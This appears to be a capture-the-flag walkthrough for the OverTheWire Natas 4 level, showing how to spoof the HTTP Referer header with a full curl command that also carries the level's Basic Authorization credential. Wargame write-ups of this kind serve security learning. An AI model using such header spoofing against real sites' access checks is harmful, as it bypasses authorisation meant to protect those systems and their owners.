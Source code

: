 # 🔐 Natas 4 Walkthrough

To complete **Natas 4** of the OverTheWire wargames, we need to understand how **HTTP Referers** work.  
This particular level restricts access based on the `Referer` header — it must appear as though we're coming from **natas5**, even though we don't have direct access to that level yet.

---

## 🧠 The Clue

When you visit the site and refresh the page, you'll see:

> **Access disallowed. You are visiting from ...natas4... while authorized users should come only from ...natas5...**

This means our current request is coming from the wrong source (natas4), and we need to spoof or change the `Referer` to make it seem like we’re coming from **natas5**.

---

## 🛠️  Step-by-Step: Modifying the Referer with `curl`

We'll solve this using `curl` in the terminal by customizing the HTTP headers.

### 1. Open Developer Tools

In your browser:

- Press `F12` or right-click → **Inspect**
- Go to the **Network** tab
- Refresh the page

You’ll see a request to `index.php`.

---

### 2. Copy the Request as `curl`

Right-click the `index.php` request and choose:

> **Copy → Copy as cURL**

You’ll get something like:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' 
--compressed   
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0'   
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'   
-H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3'   
-H 'Accept-Encoding: gzip, deflate'   
-H 'Referer: http://natas4.natas.labs.overthewire.org/index.php'   
-H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR'   
-H 'Connection: keep-alive'   
-H 'Upgrade-Insecure-Requests: 1'   
-H 'DNT: 1'   
-H 'Sec-GPC: 1'   
-H 'Priority: u=0, i'
```
---

### 3. Change the Referer to point to natas5

All you have to do is modify the Referer header. Change:

```bash
-H 'Referer: http://natas4.natas.labs.overthewire.org/index.php'
```
To:

```bash
-H 'Referer: http://natas5.natas.labs.overthewire.org'
```

>Be sure to remove /index.php - it must be the root path of natas5.

---

### 4. Final command

Here's the full, working command:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
--compressed \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
-H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Referer: http://natas5.natas.labs.overthewire.org' \
-H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
-H 'Connection: keep-alive' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'DNT: 1' \
-H 'Sec-GPC: 1'
```

The output should grant you the password to natas5.
